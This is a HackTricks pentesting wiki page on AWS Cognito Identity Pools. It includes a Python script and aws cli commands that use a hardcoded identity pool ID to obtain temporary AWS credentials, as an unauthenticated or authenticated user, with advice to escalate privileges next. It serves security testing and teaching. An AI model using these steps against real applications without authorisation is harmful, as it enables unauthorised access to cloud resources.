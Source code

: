 # Cognito Identity Pools

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Basic Information

With an identity pool, your users can **obtain temporary AWS credentials to access AWS services**, such as Amazon S3 and DynamoDB. Identity pools support anonymous guest users, as well as the following identity providers that you can use to authenticate users for identity pools:

* Amazon Cognito user pools
* Social sign-in with Facebook, Google, Login with Amazon, and Sign in with Apple
* OpenID Connect (OIDC) providers
* SAML identity providers
* Developer authenticated identities

## Accessing IAM Roles

### Unauthenticated

The only thing an attacker need to know to **get AWS credentials** in a Cognito app as unauthenticated user is the **Identity Pool ID**, and this **ID must be hardcoded** in the web/mobile **application** for it to use it. An ID looks like this: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (it's not bruteforceable).

If you find an Identity Pools ID hardcoded and it allows unauthenticated users, you can get AWS credentials with:

```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
    print(f"Not valid id: {id_pool_id}")
    exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```

Or you could use the following **aws cli commands**:

```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id>
aws cognito-identity get-credentials-for-identity --identity-id <identity_id>
```

{% hint style="info" %}
Remember that **authenticated users** will be probably granted **different permissions**, so if you can **sign up inside the app**, try doing that and get the new credentials.
{% endhint %}

Having a set of IAM credentials you should check [which access you have](../../#whoami) and try to [escalate privileges](../../aws-privilege-escalation/).

### Authenticated

There could also be **roles** available for **authenticated users accessing the Identity Poo**l.

For this you might need to have access to the identity provider. If that it a Cognito User Pool, maybe you can abuse the default behaviour and create a new user yourself.

Anyway, the **following example** expects that you have already logged in inside a **Cognito User Pool** used to access the Identity Pool (don't forget that other types of identity providers could also be configured).

```bash
# In this step you should have already an ID Token
aws cognito-identity get-id \
    --identity-pool-id <id_pool_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Get the identity_id from thr previous commnad response
aws cognito-identity get-credentials-for-identity \
    --identity-id <identity_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
    
```

{% hint style="warning" %}
It's possible to **configure different IAM roles depending on the identity provide**r the user is being logged in or even just depending **on the user** (using claims). Therefore, if you have access to different users through the same or different providers, if might be **worth it to login and access the IAM roles of all of them**.
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

